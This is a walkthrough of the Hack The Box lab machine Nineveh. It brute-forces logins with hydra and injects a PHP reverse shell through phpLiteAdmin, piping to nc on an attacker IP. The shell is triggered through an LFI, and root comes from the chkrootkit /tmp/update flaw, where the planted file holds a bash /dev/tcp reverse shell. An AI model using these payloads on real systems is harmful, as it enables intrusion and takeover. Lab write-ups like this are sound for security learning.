





## Overview

Nineveh is an Ubuntu box running an apache web server with a few different websites. Using a code injection vulnerability in phpliteadmin, and an LFI vulnerability in the custom website, I was able to execute a php file to create a reverse shell as user www-data.  Some enumeration uncovered knockd was in use and once the correct port sequence was determined, I was able log in via ssh as user amrois with a private key which hidden in an image file called nineveh.png. Some additional enumeration and with the help of a tool called pspy, I determined that chkroot was running as a cron job as user root. A little research uncovered privilege escalation exploit for chkroot that allowed me to create a file in /tmp/update and receive a reverse shell as root.

## Enumeration

**Software**

* Ubuntu 16.04.2 LTS
* PHP 7.0.18
* Apache/2.4.18
* phpLiteAdmin v1.9
* chkrootkit 0.49

**Open Ports**

* 80/tcp - http
* 443/tcp - https

**Gobuster**

```
gobuster dir -u http://10.10.10.43 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 15 -x php,html
```

* /info.php
* /department -> redirects to https://10.10.10.43/department/login.php - login page

```
gobuster dir -k -u https://10.10.10.43 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 15 -x php,html
```

* /index.html - image displayed on page
* /db - phpLiteAdmin v1.9 - logon screen
* /secure_notes - image displayed on page

## Steps (user)

I started by browsing to http://10.10.10.43 and received a generic "It works!" message

Next I browsed to https://10.10.10.43 and the only thing on the page was an image. 


Viewing certificate shows common name as nineveh.htb. I added 10.10.10.43 nineveh.htb to my /etc/hosts file just in case.


Reviewing the gobuster results showed the page /db. Browsing there redirects to https://10.10.10.43/db/index.php which shows a phpliteadmin 1.9 login page. 


I tried default password 'admin' with no luck so I decided to try brute force with hydra. First I needed to gather the required information for thecommand. First I captured the login request in burp. 


For hydra I need the request line (1), message body (2), and error message (3) from the website.


I decided to use a smaller wordlist so I went with "xato-net-10-million-passwords-10000.txt" from [seclists](https://github.com/danielmiessler/SecLists). The completed command is as follows:

```
hydra -l "" -P ~/tools/SecLists/Passwords/xato-net-10-million-passwords-10000.txt 10.10.10.43 http-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect Password" -S -s 443 -t 40
```

Brute force was successful, Hydra showed the password as "password123"


Doing a search in searchsploit for phpliteadmin 1.9 showed 2 results. 39714 could be ruled out because it contained XSS exploits which rely on interaction from a user and it's rara that an htb box simulates interaction from an end-user.

I viewed the exploit with "searchsploit -x 24044"


```
# Exploit Title: phpliteadmin <= 1.9.3 Remote PHP Code Injection Vulnerability
# Google Dork: inurl:phpliteadmin.php (Default PW: admin)
# Date: 01/10/2013
# Exploit Author: L@usch - http://la.usch.io - http://la.usch.io/files/exploits/phpliteadmin-1.9.3.txt
# Vendor Homepage: http://code.google.com/p/phpliteadmin/
# Vendor Status: Informed
# Software Link: http://phpliteadmin.googlecode.com/files/phpliteadmin_v1-9-3.zip
# Version: 1.9.3
# Tested on: Windows and Linux

Description:

phpliteadmin.php#1784: 'Creating a New Database' => 
phpliteadmin.php#1785: 'When you create a new database, the name you entered will be appended with the appropriate file extension (.db, .db3, .sqlite, etc.) if you do not include it yourself. The database will be created in the directory you specified as the $directory variable.',

An Attacker can create a sqlite Database with a php extension and insert PHP Code as text fields. When done the Attacker can execute it simply by access the database file with the Webbrowser.

Proof of Concept:

1. We create a db named "hack.php".
(Depending on Server configuration sometimes it will not work and the name for the db will be "hack.sqlite". Then simply try to rename the database / existing database to "hack.php".)
The script will store the sqlite database in the same directory as phpliteadmin.php.
Preview: http://goo.gl/B5n9O
Hex preview: http://goo.gl/lJ5iQ

2. Now create a new table in this database and insert a text field with the default value:
<?php phpinfo()?>
Hex preview: http://goo.gl/v7USQ

3. Now we run hack.php

Done!
```

Following the instructions, I logged in with password123 and created a new database called "rshell.php".


I created a new table - name: data, number of fields: 1, and clicked go.


For "Field:" I used php system to execute a command that creates a reverse shell. I set the "Type:" to "TEXT" and entered "data" (can be anything), in the default value field and clicked "Create".

```
<?php system("rm -f /tmp/backpipe;mknod /tmp/backpipe p;/bin/sh 0</tmp/backpipe | nc 10.10.14.18 4200 1>/tmp/backpipe"); ?>
```


It completed sucessfuly but I couldn't execute the php file because I didn't have access to the path. I made a note to come back to this later.


Browsing to https://10.10.10.43/secure_notes shows a page with only an image so I downloaded it to my box to take a closer look.

```
wget https://10.10.10.43/secure_notes/nineveh.png --no-check-certificate
```

I ran binwalk on nineveh.png and it detected a tar archive


binwalk with the -e parameter was used to extract the tar file


Binwalk automatically extracted the tar file to the folder secret. In this folder I found a private and public key.



The keys look good and the private key is not password protected.


Browsing to http://10.10.10.43/department/login.php showed a login page



Viewing the source of /dpartment/login.php showed the comment 

'''
<!-- @admin! MySQL is been installed.. please fix the login page! ~amrois -->
'''


I noticed that the error message indiciated whether a username was valid or not; The page showed the error "invalid username" when trying amrois but "Invalid Password!" when trying admin - which made sense thinking about the reference to @admin in the source code.




Once again I captured the login request with burp and made note of the information to feed into hydra.


The command including the required information was the following:

```
hydra -l admin -P ~/tools/SecLists/Passwords/xato-net-10-million-passwords-10000.txt 10.10.10.43 http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid Password!" -t 40
```

The hydra command was successful: admin:1q2w3e4r5t



There wasn't much to the page other than the notes link. Clicking notes displays a message on the page.

```
Have you fixed the login page yet! hardcoded username and password is really bad idea!

check your serect folder to get in! figure it out! this is your challenge

Improve the db interface.
~amrois
```


These appear to be hints. I wasn't sure what the first one meant, but I found the secret folder in nineveh.png and I was able to exploit phpliteadmin to add a .php file.

Looking at the parameters in the URL string showed a file path and normally when I see this I test for LFI vulnerabilities. I started trying some different commands, "../../etc/passwd/", "..%2f...%2f..%2fetc/passwd", etc. I noticed that dropping the .txt from ninevehNotes showed an error which was interesting.


After playing around with a combination of different paths and commands I finally stumbled across something that worked.

```
http://10.10.10.43/department/manage.php?notes=/files/ninevehNotes/../../../etc/hosts
```



Now that I had a way to access files I could execute the reverse shell that was uploaded earlier through phpliteadmin. I set up a netcat listener "nc -lvnp 4200" and updated the parameter to include path to /var/tmp/rshell.php

```
http://10.10.10.43/department/manage.php?notes=/files/ninevehNotes/../../../var/tmp/rshell.php
```


I ran an automated enumeration tool called [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite) and it found a configuration file for knockd which is a tool used for port knocking.


Viewing /etc/knockd.conf shows the correct sequences for opening and closing ssh. 


Using a bash for loop and nmap I performed the portknock. After the command completed I ran a top 1000 port scan to see if any ports were open.

```
for p in 571 290 911; do nmap -n -v0 -Pn --max-retries 0 -p $p 10.10.10.43; done
nmap -sT --top-ports 1000 10.10.10.43
```
Port 22 was now showing open.


I was then able to log on as amrois using the private key that was extracted from nineveh.png.

```
chmod 600 nineveh.priv
ssh -i nineveh.priv amrois@10.10.10.43
```


## Steps (root/system)

I ran linpeas again, and noticed an unusual folder called /report with what appeared to be a newly created file.


I transferred [pspy](https://github.com/DominicBreuker/pspy) which is a tool that allows for unprivileged linux process snooping which I used to see if any cron jobs were running.

First I copied pspy32 to my working directory and set up a python http server

```
cp ~/tools/pspy/pspy32 .
sudo python3 -m http.server 80
```

Using wget I download pspy to the target

```
wget http://10.10.14.18/pspy32 -O /dev/shm/pspy32
```

Running pspy32 shows that /usr/bin/chkrootkit is running frequently


Doing a searchsploit search for chkrootkit shows a local privilege escalation exploit.


Examining the contents of the file (searchsploit -x 33899) provides some background about the vulnerability and how to exploit it.

```
...truncated...

slapper (){
   SLAPPER_FILES="${ROOTDIR}tmp/.bugtraq ${ROOTDIR}tmp/.bugtraq.c"
   SLAPPER_FILES="$SLAPPER_FILES ${ROOTDIR}tmp/.unlock ${ROOTDIR}tmp/httpd \
   ${ROOTDIR}tmp/update ${ROOTDIR}tmp/.cinik ${ROOTDIR}tmp/.b"a
   SLAPPER_PORT="0.0:2002 |0.0:4156 |0.0:1978 |0.0:1812 |0.0:2015 "
   OPT=-an
   STATUS=0
   file_port=

   if ${netstat} "${OPT}"|${egrep} "^tcp"|${egrep} "${SLAPPER_PORT}">
/dev/null 2>&1
      then
      STATUS=1
      [ "$SYSTEM" = "Linux" ] && file_port=`netstat -p ${OPT} | \
         $egrep ^tcp|$egrep "${SLAPPER_PORT}" | ${awk} '{ print  $7 }' |
tr -d :`
   fi
   for i in ${SLAPPER_FILES}; do
      if [ -f ${i} ]; then
         file_port=$file_port $i
         STATUS=1
      fi
   done
   if [ ${STATUS} -eq 1 ] ;then
      echo "Warning: Possible Slapper Worm installed ($file_port)"
   else
      if [ "${QUIET}" != "t" ]; then echo "not infected"; fi
         return ${NOT_INFECTED}
   fi
}


The line 'file_port=$file_port $i' will execute all files specified in
$SLAPPER_FILES as the user chkrootkit is running (usually root), if
$file_port is empty, because of missing quotation marks around the
variable assignment.

Steps to reproduce:

- Put an executable file named 'update' with non-root owner in /tmp (not
mounted noexec, obviously)
- Run chkrootkit (as uid 0)

Result: The file /tmp/update will be executed as root, thus effectively
rooting your box, if malicious content is placed inside the file.

```
In the for loop in the slapper function, file_port=$file_port $i is not quoted. The end result is bash executing $i, $i being all the files listed in "SLAPPER_FILES", one of which is /tmp/update which I had control over. 

>Note that this will only work if /tmp is not mounted with the noexec option.

I created a the file /tmp/update, added a bash reverse shell to /tmp/uppdate, and when the process ran I received a shell as root

```
echo '#!/bin/bash' > /tmp/update
echo 'bash -i >& /dev/tcp/10.10.14.18/4201 0>&1' >> /tmp/update && chmod +x /tmp/update
```


